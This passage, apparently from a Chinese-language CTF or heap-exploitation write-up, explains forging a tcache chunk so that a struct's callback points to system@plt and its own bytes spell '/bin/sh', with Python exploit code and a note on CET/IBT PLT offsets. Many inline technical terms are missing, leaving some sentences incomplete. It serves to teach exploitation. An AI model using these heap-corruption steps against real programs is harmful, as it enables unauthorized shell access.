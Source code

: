 \begin{keybox}[這一段是整題的精華]
我沒有 ，但我有\textbf{一個能讀任意位址字串的原語}，
而 heap 上\textbf{剛好躺著一個程式碼位址}。
把這兩件事接起來，就得到了 PIE base。

\textbf{通用心法}：找不到 leak 的時候，問「有沒有哪裡已經存著我要的東西？」
——heap 上的函式指標、libc 在 heap 上的殘留、 的  指標……
都是常見的寶庫。
\end{keybox}

\subsection{第四步：forge \#2 —— 把 callback 換成 }

\begin{lstlisting}[style=py]
release(2)                                        # 再一次把 S0/S1 放回 tcache[0x40]
forge2  = b'/bin/sh\x00' + b'\x00' * (0x20 - 8)
forge2 += p64(0)                                  # memory = 0（跳過 printf）
forge2 += p64(pie + SYSTEM_PLT)                   # callback = system@plt
forge2 += p32(0) + p32(0)
capture_raw(0x38, b'D', forge2[:-1])
inspect(1)                                        # -> call [soul+0x28](soul)
\end{lstlisting}

最後  執行到  時：

\begin{lstlisting}[style=raw]
rdx = souls[1]->callback = system@plt
rdi = souls[1]                         <-- 而 souls[1] 的內容是 "/bin/sh"
=> system("/bin/sh")
\end{lstlisting}

\begin{keybox}
因為  被硬寫成  自己（，）。
我沒辦法控制  指向別的地方，\textbf{那我就把  本身變成  字串}。
 就在結構的最前面（），所以  這個位址上的 C 字串就是 。
\end{keybox}

\begin{warnbox}
 回報 ，但  顯示：

\begin{lstlisting}[style=asm]
  1120:  endbr64
  1124:  bnd jmp QWORD PTR [rip+0x2e6d]
\end{lstlisting}

 是 ，也就是「跳過 」。
如果哪天 CET/IBT 真的被啟用，跳到沒有  的位址會被擋下來。
所以腳本裡寫死 （從  進去），並用  確認兩個值之一：

\begin{lstlisting}[style=py]
SYSTEM_PLT = 0x1120
assert elf.plt['system'] in (0x1120, 0x1124), hex(elf.plt['system'])
\end{lstlisting}
\end{warnbox}

